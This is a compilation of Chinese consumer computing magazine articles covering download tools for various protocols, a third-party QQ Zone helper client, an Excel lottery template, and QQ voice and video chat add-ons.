HTTP协议和FTP协议资源在网上是非常丰富的，多数软件下载站点都用这两种方式提供资源让我们下载，只要我们用鼠标右键单击该链接，并在弹出对话框中选择“保存”并单击确定即可。当然，我们还可以通过专门的下载工具，比如下载HTTP协议的资源，我们可以选择“网际快车”或“迅雷”等软件，安装完毕相关软件之后，当右键单击下载链接的时候，会用相应的选项来帮助我们完成下载。

##### 1. FlashGet优化篇

- (1)摆脱束缚，但不放纵
在带宽允许的情况下，可以将“工具”→“速度限制模式” 设置为“无限制”，让网际快车尽可能地高速下载。但并非所有宽松的设置都有利于下载速度，对于同时下载的任务数就必须有所限制，过多的任务同时进行反而会延长部分任务的下载时间，一般将任务数设置在5个左右为宜。
同样，对同一个下载文件分过多线程下载也不利于快速下载，特别是较小的文件，通常3~5线程下载速度差别不会太大。如果遇到服务器只允许单线程下载的情况，就必须将线程数削减到1个，否则将无法下载。
- (2)规律网址，一次添加
有些下载网站提供的下载文件名称呈规律性变化的英文字母或数字，我们可以点击FlashGet面板中的“任务”→“添加成批任务”项，在URL栏中输入完整网址，如：“http://www.conzet.com/music(*)”.rar”（规律变化部分用“*”代替），再设置起止数值，如：1~15、a~f，最后，点击“确定”按钮，这份文件就都添加到下载任务中了。
- (3)下载我要立即执行
下载大型文件（如上百MB的高清电影）前，系统需要一段时间为即将下载的文件生成与之同等大小的空间，在剩余空间充足的情况下，我们完全可以节省这段时间，在主界面中依次点击“工具”→“选项”，切换到“其它”标签，取消“获取文件大小后申请磁盘空间”选项前的“√”号，然后点击“确定”按钮。

##### 2. FlashFXP优化篇

如果要下载FTP资源，我们可以选择经典的FlashFXP等软件，只要将要连接的站点添加进去，连接成功之后就可以下载了。

- (1)局域网下载，畅通先行
如果是通过局域网接入公网的用户，可以点击“站点”→“站点管理器”菜单，在“站点管理器”对话框中切换到“选项”标签，勾选“该站点禁用‘强制主动模式使用该IP’”和“使用被动模式”选项，以保证顺利连接。
- (2)连接也要提速
经常连接的站点，可以通过“站点”→“添加当前站点”菜单。将其添加到列表中，以后就可以打开“站点”→“站点管理器”（或者按F4键），在“站点管理器”中双击名称实现快速连接。
- (3)快还要保证质量
依次点击“选项”→“文件存在规则”，在弹出的对话框中有一个“回退数据”选项，在空格中输入150~300的任意数值。这样，发生传输意外中断后，重新连接下载就会从上次的结束点前150 KB处开始下载，有效地降低下载到有损文件的可能性。

#### 二、BT下载

BT下载是一个多点下载的源码公开的P2P软件，采用了多点对多点的传输原理，适于下载电影等较大的文件。使用BT下载与使用传统的HTTP站点或FTP站点下载不同，随着下载用户的增加，下载速度会越快。基于这一特点，使用BT下载最新的电影、软件等在速度上有很大优势。BT下载软件的使用很方便，在已安装该软件的前提下，只需在网上找到与所要下载文件相应的种子文件（*.torrent），点击后随着系统提示的步骤即可开始下载。
BT下载现在几乎覆盖了整个下载领域，尽管争议多多，但BT上的各类资源同样丰富异常。同样可以下载BT资源的软件也是不少，在此笔者向大家推荐“比特精灵”，只要下载并安装“比特精灵”，然后到网上搜索并下载多如牛毛的*.torrent资源地址，此时“比特精灵”就会自动打开这些资源地址，选择好下载目录之后就可以开始下载了。

##### 1. “比特精灵”优化篇

首先点击菜单栏中的“选项”按钮，在弹出的“选项”对话框中切换到“任务”标签，对下载和上传速度进行设置即可。主要是对上传速度的限制，防止在种子数较少时，上传文件占用过多的带宽；当种子数量较多时，可以适当提高上传速度，以获取更快的下载速度。再禁用“在开始下载前提前分配磁盘空间”选项，这样就可以避免在下载前系统分配生成空间耽搁下载时间了（如图2）。



##### 2. “BT发动机”篇

“BT发动机”也是一款优化BT下载速度的软件，只要在BT下载的时候打开该软件，即可大大提高BT的下载速度。首先下载并安装“BT发动机”，运行主程序之后，在“网络连接类型”部分根据自己的实际情况来选择即可；另外，在参数面板中，“硬盘缓冲（保护）”选项是要打开的，这样可以防止硬盘在BT下载过程中频繁进行读写，在一定程度上起到保护硬盘，延长硬盘寿命的作用；在“CPU占用”中，如果我们还需要运行其它程序，尽量不要选择“高”，选择“中”或者“低”选项即可；至于其它设置，笔者建议大家保持默认即可。基本设置完成之后，我们就可以通过单击“测试”按钮来测试一下通过使用“BT发动机”到底能提高多少下载速度。还真别说，能提高67%呢，真是不错啊。

#### 三、MMS/RTSP流媒体资源巧下载

MMS是“Microsoft Media Server”（微软媒体服务程序）的缩写，主要用于在线播放WMV/ASF等电影格式（我们一般称MMS和RTSP资源为“流媒体”）。RTSP的全称是“Real Time Streaming Protocol”，常用来在线播放REAL公司的各类媒体文件，和MMS协议开头的资源相似，它也是提供实时播放的协议，用它可以播放的媒体包括RM/RAM/RA等格式的多媒体音视频文件。

当我们在网上找到以“mms://”或者“rtsp://”开头的影片地址时候，将其直接复制并粘贴到IE的地址栏中，并按下回车键，如果网速够快的话，系统就会自动调用Windows Media Player或者RealOne Player来播放该影片。不过，要想下载到硬盘上进行观看的话，我们就需要用专门的下载工具来下载了。这里推荐大家使用“影音传送带”。安装完毕之后，找到需要下载的以“mms://”或者“rtsp://”开头的文件地址，单击鼠标右键，并选择其中的“使用影音传送带下载”命令，选择好下载目录即可下载。或者，我们可以先将其地址复制下来，然后依次点选“影音传送带”菜单栏中的“任务”→“新建下载任务”命令，并选择相应的下载路径，单击确定即可开始下载。

小提示
如果用“影音传送带”无法下载某些“rtsp://……”影片时，我们不妨将“rtsp”改成“HTTP”，也许就能下载了；或者使用最新版本的“网际快车”试试，也许能发生“奇迹”。除此之外，如果找不到影片的下载地址，我们可以通过在播放过程中断线，稍候播放器就会自动弹出电影的播放地址（如图3），但此法并不是对任何可播放的电影有效（例如，有些网站经过加密处理了，断线后得到的地址不全面）。



#### 四、ED2K——“电骡”也能驮大资源

ED2K是eDonkey（简称ED）这种下载工具所用的下载协议，在一个ED下载链接中，以“ed2k://”开头，后面用“|”划分成三部分：“|file|”后为文件名，但它并非在下载时起关键作用（其作用仅为方便搜索）；文件名后的数字为文件大小，如果是电影，则通常此数值越大影片清晰度越好；最后包含十六进制数字的代码为文件的“Hash值”，它是ed2k链接中的关键信息，文件名即使不同，只有当Hash值相同致，下载时就被视为同一个文件。例如在“ed2k://|file|新概念英语3-1.rm|65550389|2970C855C64C658D7C2823FD1481D82F/”这个地址中，“新概念英语3-1.rm”为文件名，“65550389”表示文件大小，“2970C855C64C658D7C2823FD1481D82F”就是这个文件的“Hash”。

要下载此类资源，只要使用eMule即可完成。找到我们需要的“ed2k://”资源，复制其地址“ed2k://……”，此时已启动的eMule会自动侦测并询问是否将其加入下载任务中，单击“是”便可以开始下载。如果我们想查看下载情况，只要单击工具栏上“传输”按钮即可。

##### 1. eMule优化篇

#### (1)提速从安装开始
将“incoming”和“temp”目录放在同一分区，且不要与操作系统同区（默认系统分区为C盘），可以在安装“电骡”时就更改安装路径将其安装到非系统盘。或者，点击主界面中的“选项”图标，在“选项”对话框中切换到“目录”标签，再点击“浏览”按钮设置存放路径。除了以上这些，还必须经常清理服务器信息和日志（点击“清除”按钮即可），以保证程序良好状态。
#### (2)好资源巧搜索
通常我们都会在eMule资源发布站中寻找下载源，其实通过eMule自带的搜索功能，更容易查找到我们所需的丰富下载资源。点击“搜索”，在“名字”栏输入搜索目标名称，将“类型”和“方法”分别指定为“任意”和“全局（服务器）”，这样设定可以查找到尽可能多的下载源，然后点击“开始”按钮。在“搜索结果”列表中选择“来源”较多的文件进行下载，比较容易得到满意的速度。
#### (3)High ID, High Speed

“电骡”用户ID分为两类，High ID和Low ID。High ID就是拥有独立公网IP并且能提供端口（默认4662）给eMule工作的用户。此类用户可以和任何eMule兼容客户端连接与下载。Low ID是指没有公网IP的内网用户，两个Low ID用户之间无法直接连接，需要通过High ID用户中转，下载资源相对较少。拥有公网IP的用户就不要随意更改“客户端口”号，以保证较快的下载速度。

## （4）合理分配，上传下载

在“选项”对话框“连接”标签下，能看到上传下载的限制选项，建议勾选“上传限制”项，将滑块移动到下载速度的1/3处（如图4中所示，下载速度为96 KB/s，上传速度设定为32 KB/s），如果上传速度值小于下载速度值的1/3，程序将自动对下载速度进行限制。所以“1/3”为下载限制的“黄金分割点”，既能保证高速率的下载又尽可能少占用带宽。



当快下载完时，可以把下载任务的优先级提升为“高”，让系统优先下载该文件，尽快完成下载任务。

#### 五、PPG资源下载

由于HTTP/FTP协议都以明文地址、目录的方式确定文件所在位置，造成其它网站可以盗链，使得本来负载很高的服务器很容易变为瘫痪。在这样的背景下，Pandora Pub Get应运而生，它实际是一种FTP资源，区别就在于它提供的资源是进行加密处理的。

首先下载并安装Pandora Pub Get，安装很简单，只要一路按下回车键，并选择合适的安装目录之后即可完成安装。因为软件默认语言为英语，在此先让我们将其转换为简体中文。启动Pandora Pub Get后，依次点选菜单栏上的“Edit”→“Settings”命令，并在选项设置对话框中的“Language”选项右边选“简体中文（Simplified Chinese）”，最后单击“OK”即可显示中文了（如图5）。

接下来，我们就可以到网上搜索相应的PPG资源了，找到之后，复制PPG资源地址，并粘贴到PPG窗口的地址栏中，之后单击“开始浏览”按钮即可。如果成功连接到远程服务器上，即可在右面显示远程服务器的资源情况。接着，选择我们要下载的资源，并直接拖拽到左侧本地磁盘中即可，一旦连接顺利就可以开始下载了（如图6）。





> **小提示**
当然，并不是所有时候都能顺利下载的，那是因为有些服务器要求关掉Pandora Pub Get的被动模式，否则会看不到文件！那我们就取消被动模式好了。只要依次点选菜单栏中的“编辑”→“设置”命令，然后在“设置”对话框中选择“防火墙设置”，并去掉右边“开启被动模式”前面的“√”即可。

#### 六、MXIE资源下载

MXIE本身其实并不是一种下载协议，不过我们可以通过在MXIE（马克思IE）中，搜索我们需要资源的下载地址（以“mxie://”开头），所以笔者在此单列为一种协议。

如果我们在搜索自己需要的资源下载地址时，找到类似“mxie://……”的下载地址，我们该如何下载呢？其实很简单，只要我们下载并安装MXIE这款浏览器就可以下载了。启动MXIE，然后在地址栏中直接粘贴以“mxie://”开头的地址，按下回车键之后，即可自动切换到MXIE的传输中心，接下来即可开始下载MXIE的资源了。

那么如何获得mxie://资源呢？其实很简单，只要在MXIE中输入需要查找的关键词，即可找到相应的mxie://资源。

#### 七、FLV视频下载

FLV流媒体格式是一种新的视频格式，全称为“Flash™ Video”。Flash™ MX 2004对其提供了完美的支持，它的出现有效地解决了视频导入Flash后，导出的SWF体积庞大，不能在网络上很好使用的缺点。

一般我们在互联网上看到播客们上传的精彩视频，就是采用的FLV格式，那么如何将其保存到本地硬盘供日后欣赏呢？很简单，只要通过UUme FLV Spy就可以轻松完成。

下载安装UUme FLV Spy之后，将之前观看FLV的Web地址复制粘贴到UUme FLV Spy的空白地址栏中，单击“开始捕捉”按钮，这时原来在网页中播放的精彩画面在软件中开始播放了，而且在UUme FLV Spy的底部还有该FLV的下载地址（如图7）。这时，只要单击右下角的“操作”按钮，并选择“下载”命令就可以实现下载了。



#### 八、PDL资源下载

所谓PDL就是“Public FTP Download”的缩写。很明显，这是一种FTP协议资源，不过由于它采用了一种特殊的加密措施来组成其下载地址，因此无法像查看HTTP、FTP地址那样直接从地址中查看到文件的真实存放位置。

下载该资源也很简单，只要下载并安装PUB Downloader即可。先单击左上角的“下载文件保存到”按钮，设置下载文件的存放位置，其它设置保持默认状态即可。接下来到网上搜索我们需要的“pdl://……”资源地址，找到之后，复制其地址到剪贴板中，并将其粘贴到地址栏中，再按下旁边蓝色的闪电按钮即可开始连接远程服务器，如果连接成功的话，在窗口中就会显示和登录FTP相似的信息，选中需要下载的文件，并单击绿色的按钮即可开始下载（如图8）。



如果感觉这样复制粘贴的过程很费劲的话，我们也可以通过单击菜单栏的“选项”标签，并勾选其中的“监视剪贴板”选项。这样，只要我们将“pdl://……”的资源地址复制到剪贴板上，PUB Downloader便会自动侦测到，并将其添加到地址栏中。而且，PUB Downloader分1.5和1.6两个版本（目前有些网站所提供的1.7版实际上是1.6版），建议两个版本都使用，因为当使用1.5版连接错误时，更换1.6版的也许就可以连接，反之亦然。当然判断是否可以连接成功，也有一个非常简单的方法：如果屏幕显示“Too many users”信息，则说明此版本是可以的，不过当前连接的人太多而已，你可稍后再试试看。

#### 九、PTF协议下载

PTF是“Pub Transfer”的缩写，这也是一种FTP协议，为了和PUB资源的PDL协议相区别，所以使用PTF协议来描述资源地址。

要想下载该地址类型资源，只要下载并安装Pub Transfer即可。现在让我们去搜索网上的“ptf://……”资源吧，基本都是各大论坛提供类似的下载方式。只要复制“ptf://……”资源地址，然后单击Pub Transfer窗口中的“添加任务”按钮，并在弹出对话框中将地址粘贴进去，再通过单击“保存到”按钮选择文件保存位置之后，最后单击“连接”按钮即可开始连接，如果连接成功，则会在窗口下方显示远程服务器的文件列表，选中需要下载的文件，并单击“下载所选文件”按钮，即可开始下载。

> **小提示**
> 如果远程服务器不能连接的话，可能是我们的Pub Transfer启用了被动模式（工具栏上第三个按钮为按下状态），只要我们再次按下第三个按钮即可取消被动模式。

# “QQ小秘书”

## ——访问Q-Zone空间的高级助理

◆文/TMG zq

引言：或许你用电脑是为了游戏，或许是用来办公，更或者你的电脑只是一部长途电话。可是，每个人打开电脑的第一件事似乎还是点击QQ图像。现在，拥有Q-Zone的人越来越多，周围的很多朋友也费尽心思把空间做得更加漂亮。使用QQ空间似乎成为一种流行了。每天，在别人空间溜达一圈，或者给自己的空间添一篇日志，已成为生活的一部分。

可是，你有没有这样的困扰：每次打开空间的速度慢得惊人，有时候甚至都懒得再开？不要让速度成为释放心情的障碍。现在，笔者为大家介绍一款QQ空间的辅助软件——“QQ空间小秘书”，无需登录便可实现空间的快速访问。一定很令人心动吧。

#### 一、简易的运行与操作

这款“小秘书”下载后无需安装，直接运行即可。同时，也不会扰乱你桌面的布局。和现实中的秘书不同，它会在后台默默地为你服务。需要使用时，你只需轻轻双击系统托盘的小图标，便会随叫随到，赫然在你的眼前。

单击菜单栏的“登录”按钮，或者按“F12”键，会弹出一个名为“QQ空间用户登录”的对话框，输入你的QQ号码、密码以及验证码，然后单击“登录”便轻松进入。如果是家用电脑，那就不妨勾选“保存登录”，下次登录时只需轻轻一击即可。

#### 二、快速的日志撰写

欣赏完别人的空间，当然也得照顾一下自己的“宝宝”啦。在菜单栏“我的空间”单击“发表日志”，或者单击“Ctrl+Q”，便可以发表自己的大作啦。这与回复留言的编辑区操作相同，“标题”、“分类”、“使用签名档”等等，和Q-Zone的一模一样，相信不用笔者介绍大家都能很快上手吧。最后预览一下，没有问题的话就单击“提交”了。

同样，你可以在菜单栏中的“我的空间”中单击“发表心情”，或者“Ctrl+W”，记录每天的心情日记。

#### 三、简明的日志管理

生活中，总会定期对学业或者经济花销做一个记录。在Q-Zone中相信你也有这样的习惯吧。看看自己写了多少篇日记，有多少朋友来过，留下了什么祝福，我们总是会这样盘算。“小秘书”可以完整地保存QQ空间里各种记录。

在菜单栏“我的空间”中单击“我的日志”，或者使用快捷键“F5”，便可以查看日志的情况。

同样，在“我的空间”单击“我的留言”，或者按“F6”，可以进行留言查看和管理。

#### 四、轻松浏览日志

当我们新接触一个应用软件时，面对陌生的操作界面常常会一头雾水。然而在使用“QQ空间小秘书”时就不会出现这样的状况，其原因是它的操作十分简单，简直一目了然。在其界面上方，输入对方的QQ号码，即可留言了，并且字体可以“简”“繁”互换。图1是对方QQ空间的日志列表，想看哪一篇随你挑。

选中心仪的日志后，单击“阅读”，便可打开“阅读日志”窗口。除文字内容外，还有代码，便于转贴。

如果想看对方日志的原始效果，也不用打开对方的QQ空间。“小秘书”为你做得十分周全，只需轻轻单击“查看效果”，便会出现一个名为“QQ空间代码浏览器”的窗口，这样就OK了！

如果喜欢对方的日志，还可以轻松地“占为己有”哦。单击“复制内容”，即可将对方的内容保存起来。如果想转贴到自己的QQ空间，那也是轻而易举。单击“我要转载”，然后输入验证码，便大功告成。



#### 五、随意发表留言

在朋友的日志里，看见他的幸福或者失落，是不是也想表达一下自己的情感呢。这时，“小秘书”可以大显身手了。

在编辑区，你可以留言，字体、字号、颜色等等随你选择。我们还可以看见窗口右侧有三个箭头，它是做什么用的呢？

单击一下，就会弹出一个列表框。这里收集了一些“小秘书”为你准备的常用回复。比如“朋友你好”、“生活因认识你而多姿多彩”等等。当然，我们还可以根据自己的需要进行增删。具体的做法是，单击列表下方的“增”、“删”按钮，这样你就可以拥有个性的留言了。同时，可以将某个留言指定为一个QQ号码的专用留言，也可以设置为“系统默认”而共用。

有时候因为地区习惯或者为了增加视觉效果，可以进行字体的“繁—简”转换。

最后，你可以单击“预览”，看一下效果如何，有没有需要修改的地方。如果一切OK，输入验证码，单击“发表留言”就完成了。

#### 六、请“小秘书”的“装修队”帮忙

——请朋友帮你把空间做得漂亮些
曾看过几个网友的空间，虽然不是黄钻用户，做得却非常漂亮。可是又不敢把空间随意交给他们做，真是没有技术逼死人啊。不过现在这一问题却能很好解决，交给“小秘书”，事情就会迎刃而解。下面笔者给大家介绍一下这个独门绝技。

按“F8”键，会弹出一个对话框：“我的地盘，我爱请谁就请谁”。你可以看见在“管理链接”后面自动生成一串链接码。把它发给朋友，便可拥有你QQ空间的所有管理权限。因为密码在链接里经过加密，不用担心QQ被盗，同时也不会影响朋友对你的空间进行“装修”。

#### 七、互踩助燃，让她的“人气一飞冲天”

这是当前流行的一种小游戏，能帮助你在短时间提高空间人气。“空间做得再漂亮，也没有人来访问”的尴尬境地，“小秘书”可以帮你轻松解决。

在图2主界面单击“队列”，打开好友列表，输入对方的QQ号码就好了。简单吧！如果觉得只踩一个好友空间不过瘾的话，还可以批量导入，预设每个QQ踩多少次，循环或者随机进行。当然，这只是游戏，如果想真正拥有旺旺的人气值，还得靠精心的修饰装扮和良好的人际品质啦！



### 打造EXCEL版抽奖系统

◆文/啄木鸟

春节快要到了，很多单位都要举行一些联欢活动庆祝一下，有时为了活跃气氛，会穿插一些抽奖活动，为了方便实现这个抽奖活动，并且保证抽奖的公正性，我们可以让Excel来帮忙！

## 1.创建抽奖器

启动Excel 2003，执行“文件”→“新建”命令，展开“新建工作簿”任务窗格，然后单击其中的“本机上的模板”按钮，打开“模板”窗口并切换到“电子方案表格”选项卡。选中“抽奖器”，单击“确定”按钮，用EXCEL打开“抽奖器”模板，然后将其保存到任意位置，文件名设为“抽奖工具.XLS”。

> 如果安装时模板没有安装，可将Office安装盘插入光驱中，让系统加载此模板。

系统默认的这个模板实在有些土气，和过年的气氛实在不协调，我们现在就开始改造一下，让这个抽奖工具显得喜庆些，具体的改造方法如下：

（1）单击“工具”→“保护”→“撤销工作表保护”命令，然后选中“奖项设置”所在单元格，将背景色设置为“红色”，字体颜色设置为“黄色”。

（2）将“总计…名”、“抽奖顺序”、“抽奖方法”所在单元格的背景色设置为“红色”，字体颜色设置为“黄色”。

（3）背景色及字体颜色更改完毕后，单击“工具”→“保护”→“保护工作表”命令，再次将工作表保护起来，防止工作表中的内容被用户无意中更改。

（4）重复上面的步骤，将“抽奖”工作表、“抽奖结果”和“候选名单”工作表中所有的黑色背景更改为红色，字体颜色由白色更改为黄色。

怎么样？经过这样的设置，这个抽奖工具是不是显得喜庆多了。

## 2.奖项设置

我们已经设置好了抽奖工具的界面，下面就开始抽奖的前期准备工作。

（1）在新建的抽奖工作簿中，切换到“候选名单”工作表中，将参加抽奖的员工名单输入其中，也可以从以前输入的文档中直接复制、粘贴过来。

（2）切换到“设置”工作表中，设置好“奖项设置”、“抽奖顺序”、“抽奖方法”，设置完成后，单击“设置完成”按钮，系统自动切换到“抽奖”工作表中。

## 3.开始抽奖

至此，我们一切的准备工作都已经做好了，下面开始抽奖！具体的抽奖步骤如下：

（1）先切换到“抽奖”工作表，然后单击其中的“开始抽奖”按钮，此时“开始抽奖”按钮转换为“停止”按钮。

（2）过一会儿，按下“停止”按钮，“特等奖”即被抽出（此处设置的抽奖顺序是“先大奖，后小奖”）。此时“停止”按钮转换为“继续抽奖”按钮。

（3）如果你要抽出下一个奖项等级的时候，按下“继续抽奖”按钮，过一会儿，按下“停止”按钮，重复这个过程，直到将所有的奖项都抽出来。

## 4.查看结果

所有的奖项抽完之后，现在就让我们看看到底是谁中了奖。切换到“抽奖结果”工作表中，就可以看到各个奖项的抽奖结果，如果要将抽奖结果打印出来，可切换到“抽奖”工作表中，按下“打印获奖名单”按钮，即可将抽奖结果打印出来了。怎么样？是不是很方便呢？那就赶紧试试吧！

> 在抽奖“停止”情况下，可以切换到“抽奖结果”工作表中，随时查看各级奖项的抽奖结果。

# 聊天新体验 ——QQ助手大集合

◆文 / TMG zcy

引言: QQ自诞生以来，受到青年人的无限喜爱。我们如果听到有谁说自己没聊过QQ的话，恐怕难免会对他另眼相看。不过，一般的QQ用户的聊天都是千篇一律的，有没有人曾经想过其实你的QQ聊天可以变得更加有创意呢？下面给大家介绍的几种QQ聊天辅助软件就可以让你眼前一亮，打破传统的聊天模式，让众多的朋友们能够有全新的聊天体验。

#### 一、音乐中感受浪漫聊天

- 软件大小：2.55 MB
- 软件类别：网络工具/聊天工具
- 软件语言：简体中文
- 运行环境：Windows 2000/NT/XP/2003/Vista
- 推荐感言：完美的录音功能和炫酷的音乐表情
- 下载链接：http://www.voiceemotion.com/downloads_chs.htm

软件简介: 语音功能应该说在QQ聊天中的应用十分广泛，它省去了打字之苦，因此得到很多人的青睐。语音聊天不但能使用户可以与朋友畅所欲言，不受时间和空间的限制，更省去了打电话的高昂成本。然而，这样的聊天与打电话没有太大的区别，如果能够在一种美妙的氛围下聊天，一定会产生不一样的效果，身在两地的情侣也一定会感到别有情调，vEmotion软件就可以让我们梦想成真。

vEmotion是一款VoIP音频助手软件，它使用方便，实用性强，支持时下较为流行的MP3和WAV音频格式，有了它用户就可以为自己的语音聊天设置背景音乐。当然，如果是你自己电脑中保存的音乐的话，也同样可以设置，让你和好友边聊天边欣赏动听的歌曲。如果是对你们有特殊意义的歌曲的话，你可以将这首下载得到的歌曲设置为背景。试想：在这样的歌曲声中聊天会产生什么样的效果呢？值得一提的是，这款软件可以自动将VoIP通话保存下来。如果你想把通话内容保存下来作为特殊用途的话，你还可以以口令形式对其进行加密。此外，它还支持声音表情和TTS文本转语音功能，语音聊天时也能发送搞笑的声音表情，让你不用动嘴也可以打电话。

这款软件除了支持QQ以外，还支持Skype、ICQ、MSN/IM、GTalk、AIM/Triton/Pro和Yim软件，使用广泛。那么，这也是软件应该如何来安装使用呢？

第一步：执行安装程序，就会出现如图1的界面，如果你使用QQ进行语音聊天的话，首先将vEmotion进行用户定制音频数据源的设置：单击菜单栏中的“工具”选项，然后在出现的下拉菜单中单击“选项”，于是就会出现一个对话框，在中间的“VoIP客户端”下方的复选框中选中“Tencent QQ”，单击“确定”按钮，然后就可以进行体验了。



不过，通过上面的相应设置后，该软件需要重启才能使修改生效。当然，你也可以选择不进行该项设置，因为最新版本的vEmotion默认的VoIP客户端包含Tencent QQ，我们在这里建议进行这项操作是为了在使用期间不造成不必要的麻烦。

接下来就是启动QQ了，如果你想和朋友语音聊天的话，单击聊天窗口上的语音聊天，发起语音聊天请求，对方接受后，你们就可以进行正常的语音聊天了。

第二步：现在我们要在音乐声中进行语音聊天了，其实营造一种浪漫的氛围一点也不难哦！它的操作正如QQ一样简单，相信没有人会担心语音聊天的时候不会使用这一好玩的软件。具体做法是：单击软件主界面的“背景音乐”标签，该版本的vEmotion会自带一个音乐文件，在出现的这一背景音乐选项卡中，就会存在这一音乐文件。如果选用这一音乐作为背景的话，你只需选中这一文件后右击选择“共享”就可以了。现在，你的朋友就可以和你在音乐声中畅所欲言了。这真的是一种从未有过的享受，你的朋友听到后一定会惊喜不已，你们的感情也一定会与日俱增。

当然，如果音乐声音太大，你也可单击快捷菜单上的调节音量按钮，然后通过拖动鼠标进行音量的调节。反之，如果音量过小，也可以通过此种方法将背景音乐的声音调大。

可是，只有一种背景音乐是不是太单调了？又刚好这个音乐你不喜欢怎么办？再或者，你想和朋友在聊天时能够听到那首曾经使你们在茫茫人海中相识、相知的歌曲的话，应该如何操作呢？

首先，你可以通过网络下载、光盘等不同的方式将你所需要的音乐声音文件拷贝到电脑上，然后单击菜单栏中的“列表”→“添加音频文件”，于是就出现一个对话框。在这里，你就可以查找到你要选择的音乐文件了。文件的格式只要符合WAV、MP3或VEA中的一种就可以了。找到待选的文件后选中并单击“打开”按钮，于是这一音乐就成为背景音乐中的一种了。然后再以同样的方式右击该文件，选择“共享”，这个音乐就会马上涌入你们的耳畔。哇，真是不一般的感受！

第三步：背景音乐设置成功了，和朋友的通话变得更加有内容。然而，光有这些气氛还是不够的。大家在聊天的时候都会经常用到各种QQ表情，让聊天变得更加生动、活泼。而语音聊天的时候，再想发一些表情可能就不得不再回归鼠标或键盘了。其实，这款vEmotion还有个独特之处，就是声音表情。也许乍一听，不少人都会觉得奇怪：声音怎么也有表情？声音表情怎么实现呢？

我们再单击回到“声音表情”选项卡，这里有很多的声音表情，做法很简单，仍旧是通过右击鼠标来完成。右击后选择“发送”，声音表情就发送成功了。你和朋友双方都可以听到这一声音，声音表情还可以设置为“问候语”功能，设置后，每次你和朋友通话，它就会首先自动播放出来，真的很好玩儿，为聊天增加了不少的乐趣。

第四步：这款软件还有一个独特的功能，那就是它可以帮你掌握一种不动嘴就可以和对方说话的本领。单击“TTS”标签，在这里键入你想说的话，单击“发送声音”按钮，对方就可以听到你想说的话了。

第五步：单击菜单栏“录音机”选项，就可以在下拉菜单中看到一系列关于录音的功能设置了。系统默认为“允许录音”、“记录共享的音乐”、“记录我的声音”以及“记录对方的声音”，也就是说，我们在与朋友聊天的时候这个软件可以帮我们记录下聊天的所有内容，并以音频的形式保存下来。此外，录音自动开始和结束，不会漏下任何的内容空白。它还提供3种录音模式：双音轨、单音轨原始频率和单音轨双倍频。

如此看来，这样的一款软件能够为我们的语音聊天带来这么多意想不到的效果和惊喜，相信现在的你一定会按捺不住了，那就赶快去体验吧。

#### 二、MM美眉门面必备之——拍拍看2.5

- 软件大小: 14.8 MB
- 软件类别: 网络工具/聊天工具
- 软件语言: 简体中文
- 运行环境: 适用于简体中文Windows 2000/XP

推荐感言：完美的录音功能和炫酷的音乐表情

下载链接: http://www.paipaikan.com/download.htm

软件简介: 网络普及的今天，视频聊天、自拍上传成了时尚生活的新风尚。因此，为了满足广大用户自拍个性化的广泛要求，增加视频聊天过程的乐趣，ANC奥尼与软件制作公司联合研发了这款软件，它能够实现在视频聊天画面里加入动画场景，各种有趣的动画和花窗使你的视频形象与众不同。还可以通过它拍出丰富多彩的图片，那些可爱的大头贴照片可以让你充分地向朋友们展示你的百变炫酷造型，琳琅满目的大量精美的大头贴像框让你有不同面貌。使用它拍照的话，再上传到网络中一定会使你赚足面子，保证让你的点击率猛增哦！

此外，这款软件风格独特、造型可爱，就连界面的设计也非常可爱，因此温柔可爱的MM们肯定会特别喜欢。以这样的一个可视形象出现在你的QQ视频聊天窗口上该是一个怎样的享受呢？以前的那种单调的显示的确是够老土了，那么，从现在开始就换成这样的花窗造型吧！

可是，可能会有人要问了，这样的软件只能是自己欣赏吧？对方又没有安装这样的软件，自己欣赏是不是太局限了呢？其实不是的，这样的软件只要一方安装，就能够实现双方的共享，你的朋友就能看到你的个性超炫造型。而且它的内容十分丰富，包括漂亮的画框、可爱的卡通人物、丰富的表情、个性的签名、美丽动人的美女和明星等的花窗内容都可以加入视频。而且，这些花窗很多是具有动画效果的，画面里的小虫虫、小怪物等的滑稽动作从里面蔓延开来，真是够个性！

“拍拍看”除了内置的10种花窗分类之外，还可以下载更多的精美花窗，并即时以彩信形式发送出去。因此，一定能给你带来无尽的乐趣。

这款软件其实在使用的时候，操作非常简单，下面就给大家讲解一下它的基本操作步骤：

第一步：下载软件成功后，我们就要运行安装它了，软件安装完成后系统会自动提示要重新启动计算机或者把摄像头重新拔插，但是记住一定要插入原先的USB插口。运行软件后，首先我们要进行登录，当然，对于大部分没有注册的用户来讲，我们首先要做的就是注册。注册成功后登录就可以看到它的主界面了。主界面分为两个部分，左边是图像窗口，提供视频预览，右边是花窗选择窗口。这里的花窗可以分为：表情花窗、卡通花窗、明星花窗、美女花窗、动物花窗、框架花窗、道具花窗、风景花窗、电影花窗和综合花窗几种类别，每一种类别下还有供选择的多种图案。你可以任意单击一个花窗类别的按钮，然后在其中选择出一款喜爱的花窗，这时候左边的窗口就会出现花窗的预览，然后你就可以进行启动QQ视频聊天了。图2就是我们任意选择一款画框的效果图。



第二步：通过单击聊天窗口中的视频聊天按钮，发送和朋友视频聊天的请求，对方接受后，就可以进行视频聊天了。这时候由于有了前面的选择花窗操作，现在你的视频窗口就不再与原来的一样了，而是自动将你在“拍拍看”中所选的花窗嵌入到了你的视频窗口中。不管是和你的朋友还是同学，分享这份快乐都是非常好的，而且花窗中的动态图案更是营造出了不一样的欢快气氛。

第三步：“拍拍看”除了能将聊天视频加上花窗，还能够利用众多的精美花窗为你制作大头贴。当然前提仍然是利用摄像头进行。我们同样是在运行软件后，在右侧窗口进行花窗的选择，只需单击鼠标选中任意一个花窗，左侧就能看到图像的预览了。这时候你要做的就是摆好姿势哦，好了，一切准备就绪，单击软件下方的拍照按钮，于是，这精彩的一瞬就诞生了。

值得一提的是，如果你在使用花窗效果进行视频聊天之后，想要切换到拍照模式，就需要单击左边窗口中的左起第三个按钮，然后进行拍摄。而且，拍摄完成后的照片会自动存储在“我的资料库”中，我们可以通过单击右侧窗口中的“我的资料库”按钮来查看已拍完的大头贴。此外，在拍摄过程中，我们还可以单击“下一张”按钮来切换至下一花窗进行拍照。可能细心的朋友就会问了，右边窗口中的“更多”是什么意思，其实，它的作用在于方便用户可以在“拍拍看”的官方网站上下载更多的花窗备用。

